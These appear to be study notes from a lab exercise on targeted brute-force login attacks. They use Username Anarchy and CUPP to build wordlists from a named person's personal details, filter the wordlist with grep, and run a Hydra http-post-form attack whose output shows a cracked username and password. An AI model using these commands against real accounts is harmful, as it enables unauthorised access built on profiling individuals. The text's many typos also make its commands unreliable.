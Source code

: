 # Custom wordlist:
While pre-made wordlist rockyou or Seclists provide respository of potential pass and usernames, they operates on a broad spectrum. casting a wide net in the hopes
of catching the right combinations. While effective in some scenarios, this approach can inefficient and time-consuming, especially when targeting specific
individual or organization with unique pass or user patter.
Consider the scenario where penstester  attempts to compromise the account of [Thomas Edison] at his workplace. A generic username list like [xato-net-19-million-usernams-dup.txt]
is unlikely to yield any meaningful results. Given potential user conventions enforced  by his company, the probability of his specific username begin included in such maissive
dataset is minimal. These could range from a straightfoward first name/lastname format to more intricate combinations like last/first three.

The power of custom comes into play, meticulosly crafted lists, tailored to the specific targeted and their enviroment, dramatically increase brute-force attack's effectively and success rate.

## Username Anarchy:
Even when dealing with a seemingly simple name like "Jane Smith", manual username generation can quicky become a convoluted endeavor. The obvius combinations like jane,smith,janesmith.smith or jane.s may seem
adequate, they barely scratch the surface of the potential username landscape.
Creativity knows no bounds, and username often become a canvas for personal expression, Jane could seamlessly weave in her middle name, or cherished hobby, leading to variations like janemarie, smithj87 or
jane_the_gardener. The allure of leetspeak, where letters are replace with number and symbols, could manifest in username like j4n3, 5m1th, or j@n3_5m1th.
Or the passion for particular book, movie, or band might inspire username like winteriscoming, potterheadjane, or smith_beathle_fan.

This is where username Anarchy shines. Common substituations, adn more casting wider net in ur quest to uncover the target:
`./user-anaechiy -l`
First at all we must install ruby then pull the username anarchy git to get the script:

After install execute the program with the target;s first and last name. This will generatee possible username combination.
```sh
cd username-anarchy
./username-anarchy Jane Smith > jane_smith_username.txt
jane
janesmith
jane.smith
janesmit
janes
j.smith
jsmith
sjane
s.jane
smithj
smith
smith.j
smith.jane
js
```
## CUPP
With the username aspect addressed, the next formidable hundle in a brute-force attack is the pass. This is where CUPP steps in, a tool designed to create highly
personalized pass wordlist the leverage the gathered intellenge about the target.
Our exploration with Jane Smith, already employed username Anarchy to generate a list of potential username. CUPP to comploment this with a targeted pass list.
The efficacy of CUPP hinges on the quality and depth of the indromation u feed it, akin to a detective piecing together a suspect's profile.
Wher can ine gather this value intelligence for a target like smith.
- Social media
- Company Website
- Public Records
- New Articles and Blogs

Installation the CUPP:
`sudo pacman -S cupp`
`cupp -i`
We now have generated usename.txt list and jane.txt password list, but there is one more thing we need to deal with. CUPP has generated many possible pass for us, odd pass policy:
   - Minimum Length: 6 characters
   - Must Include:
        - At least one uppercase letter
        - At least one lowercase letter
        - At least one number
        - At least two special characters (from the set !@#$%^&*)

Command grep to filter that pass list to match that policy:
`grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt`
This command efficiently filters jane.txt to match the provided policy form 4600 pass to posible. Ensures a minumun lenth of 6 charachers, then checks for at least
on upperletter, one lowercase letter, one number, and finally, at least two special characters form the specified set.
`hydra -L usernames.txt -P jane-filtered.txt IP -s PORT -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"`
We can use cupp to create the wordlist:
```sh
cupp -i

___________
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]


[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: Jane
> Surname: Smith
> Nickname: Janey
> Birthdate (DDMMYYYY): 11121990


> Partners) name: Jim
> Partners) nickname: Jimbo
> Partners) birthdate (DDMMYYYY): 12121990


> Child's name:
> Child's nickname:
> Child's birthdate (DDMMYYYY):


> Pet's name: Spot
> Company name: AHI


> Do you want to add some key words about the victim? Y/[N]: y
> Please enter the words, separated by comma. [i.e. hacker,juice,black], spaces will be removed: hacker,blue
> Do you want to add special chars at the end of words? Y/[N]: y
> Do you want to add some random numbers at the end of words? Y/[N]:y
> Leet mode? (i.e. leet = 1337) Y/[N]: y

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to jane.txt, counting 46790 words.
[+] Now load your pistolero with jane.txt and shoot! Good luck!
```
Fileter the jane.txt
with grep:
`grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt`
Now we generate the [jane-filtered.txt] and now we can use hydra for get the pass:
```sh
 hydra -L ~/TOOLS/username-anarchy/jane_smith_username.txt -P jane-filtered.txt 83.136.254.202 -s 49373 -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-23 11:27:09
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 100604 login tries (l:14/p:7186), ~6288 tries per task
[DATA] attacking http-post-form://83.136.254.202:49373/:username=^USER^&password=^PASS^:Invalid credentials
[49373][http-post-form] host: 83.136.254.202   login: jane   password: 3n4J!!
[STATUS] attack finished for 83.136.254.202 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-23 11:27:20
```
We can use the generate list of usernames that we did with [username-anarchy]
`./username-anarchy Jane Smith > jane_smith_username.txt`

[[49373][http-post-form] host: 83.136.254.202   login: jane   password: 3n4J!!]

